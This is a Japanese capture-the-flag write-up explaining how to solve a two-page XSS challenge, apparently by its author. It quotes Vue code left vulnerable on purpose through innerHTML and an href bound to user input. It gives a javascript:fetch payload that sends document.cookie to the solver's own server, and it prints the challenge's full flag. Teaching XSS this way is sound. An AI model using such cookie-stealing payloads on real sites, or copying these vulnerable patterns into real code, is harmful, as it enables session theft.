







# wani_request2

## 問題文

XSS Challenge !!

<https://request2.web.wanictf.org/>

チャレンジは二つです。

あどみんちゃんのクッキーを手に入れてください。

Wani Request 1 と同じくRequestBinなどを利用してみましょう。

## フラグ

`FLAG{y0u_4r3_x55-60d_c75a4c80cf07}`

## 解法
### はじめに
準備問題のWani Request 1 をクリアしてから挑むXSS問題としてWani Request 2 を作成しました。

Wani Request 2 はpage1,2を用意しています。
それぞれのページでXSSを発生させることであどみんちゃんのCookieを二つ手に入れる問題になっています。
それぞれのCookieにはFLAGが半分ずつ入っているので合体させるとクリアです。

なお想定解法の前に「XSSって何？」という方のためにXSSについて解説しようかと思ったのですが、こちらのページ([3分でわかるXSSとCSRFの違い](https://qiita.com/wanko5296/items/142b5b82485b0196a2da))の図が分かりやすかったのでリンクだけ貼らせて頂きます。

### 想定解法
まずはWani Request 1 と同様にRequestBinなどを利用してリクエストを受け取るサーバを用意してください。

次にWani Request 2 の問題ページにアクセスするとFLAGのフォーマットに関する情報が提示されます。page1とpage2でそれぞれチャレンジをクリアして手に入れたFLAGの断片を合体させると正解ということが分かります。



#### page1の解き方
page1にアクセスすると↓のような画面が表示されます。
緑色の矢印で示している通り、waniというURLパラメータに入れた文字列がそのまま表示されるようになっています。



配布ファイル(Page1.vue)でも該当部分を確認してみましょう。

↓のコードは配布ファイル(Page1.vue)から関係する部分だけ抜粋したものです。
waniだらけで分かりにくいですが、3行目にURLパラメータで指定した文字列がそのまま挿入される形になっており、XSSの脆弱性があります。
```
<template>
  <b-container class="mt-3">
    <p>wani=<span id="wani"></span></p>
  </b-container>
</template>
<script>
export default {
  data() {
    return {
      msg: this.$route.query.wani,
    };
  },
  mounted() {
    var wani = document.getElementById("wani");
    wani.innerHTML = this.msg;
  },
};
</script>
```

文字列がそのまま挿入されるということなので、例えば``````のようにHTMLタグを用いてscriptを挿入可能です。(この場合アラートが画面に表示されます。)

(注:URL欄に入力しただけではアラートは出ません。Enterを入力するなどしてページを読み込み直してください。)



よって、あどみんちゃんが同じパラメータを持ったリンクを踏めばあどみんちゃんのブラウザ上でも同じようにscriptが実行されるはずです。

Cookieを表示させるだけなら``````で表示できますが、これではあどみんちゃんのブラウザ上でアラートとして表示されるだけなので意味がありません。
あどみんちゃんのCookieを手に入れるにはCookieを自分の用意したサーバに送信してもらう必要があります。

そこで[Fetch](https://developer.mozilla.org/ja/docs/Web/API/Fetch_API/Using_Fetch)を利用してcookieを送信してもらうことにします。以下がfetchを利用した想定解です。

``````

フォームにクエリを書いて送信ボタンを押すと、自分のサーバにcookieが届きます。
RequestBinを利用する場合は届いたリクエストの一番下を見ると```/?cookie=flag1=FLAG{y0u_4r3_x55```とあります。
これがFLAGの半分ということになります。



### page2の解き方
page2にアクセスすると↓のような画面が表示されます。
緑色の矢印で示している通り、入力フォームに入力した文字列がリンクとして表示されます。



↓のコードは配布ファイル(Page2.vue)から関係する部分だけ抜粋したものです。
入力したtextをv-bind:hrefによってリンク先として設定しています。
[Vue.jsの公式ドキュメント](https://jp.vuejs.org/v2/guide/security.html#URL-%E3%81%AE%E6%8C%BF%E5%85%A5)にもある通り、 javascript:を利用してJavaScriptを実行できそうです。

```
<template>
  <b-container class="mt-3">
    <p>URLを入力してください。</p>
    <b-form-textarea
      id="textarea"
      v-model="text"
      placeholder="enter text"
      rows="1"
      max-rows="2"
    ></b-form-textarea>

    <p>
      入力したURL: <a id="link" v-bind:href="text">{{ text }}</a>
    </p>
  </b-container>
</template>

<script>
export default {
  data() {
    return {
      text: "https://www.google.com/",
      res: "送信してね",
      buttonLoading: false,
      token: ""
    };
  },
};
</script>
```

早速やってみます。入力フォームに```javascript:alert('XSS!');```を入れて、表示されるリンクをクリックすると以下のようにalertが表示されます。



ここまで来ればあとはpage1と同じです。
```javascript:fetch(`https://(自分のサーバーのURL)/?cookie=${document.cookie}`);```という文字列を入力フォームに入力して、送信ボタンを押せば、自分のサーバにcookieが届きます。

一番下にFLAGの半分があります。



ということで、page1でゲットしたFLAGと合体させて、
```FLAG{y0u_4r3_x55-60d_c75a4c80cf07}```が正解となります。

### おわりに

この問題では2つのパターンでXSSを体験して頂きました。

何も考えずにWebページを作っているとXSS脆弱性を仕込んでしまうかもしれないので、十分に気を付けましょう。

XSSって聞くの初めて、という方にXSSの危険性がなんとなくでも伝わっていれば幸いです。
